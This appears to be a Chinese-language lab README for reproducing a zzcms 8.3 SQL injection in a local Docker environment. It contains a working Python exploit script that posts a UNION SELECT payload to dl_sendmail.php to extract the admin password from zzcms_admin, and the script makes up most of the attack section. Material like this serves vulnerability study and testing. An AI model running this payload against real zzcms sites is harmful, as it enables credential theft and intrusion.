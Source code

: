 ## 启动环境

```
docker-compose build
docker-compose up -d
```

zzcms 8.3 爆出的CVE漏洞很多，我这边选了文件危害性高的sql注入漏洞

## 0x01 前台sql注入
要想利用此漏洞必须现在前台注册一个普通用户账户[用户注册—zzcms](http://127.0.0.1:8002/reg/userreg.php)，然后编辑默认的短信信息
http://127.0.0.1:8002/user/index.php?gotopage=msg_manage.php

然后测试
![](%E5%90%AF%E5%8A%A8%E7%8E%AF%E5%A2%83/luffy1.png)


python脚本
```
import requests

burp0_url = "http://127.0.0.1:8002/dl/dl_sendmail.php"
burp0_cookies = {"session": "db0e38ef-30cf-454c-a5a5-a41c8dd9d05b", "bdshare_firstime": "1535071918348", "PHPSESSID": "dpbqepggda4ocq68ok6ellbnj7", "__tins__713776": "%7B%22sid%22%3A%201535075799812%2C%20%22vd%22%3A%207%2C%20%22expires%22%3A%201535078558802%7D", "__51cke__": "", "__51laig__": "7", "UserName": "luffy", "PassWord": "3bf1114a986ba87ed28fc1b5884fc2f8"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded"}
burp0_data={"sql": "select email from zzcms_dl where id=-1 union select pass from zzcms_admin #"}
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

```



[链接一](https://mp.weixin.qq.com/s/ROgA0e9qExM7P7p3cwqUnQ)

[链接二](https://www.anquanke.com/post/id/156850)

[链接三](https://github.com/AvaterXXX/ZZCMS/blob/master/README.md)
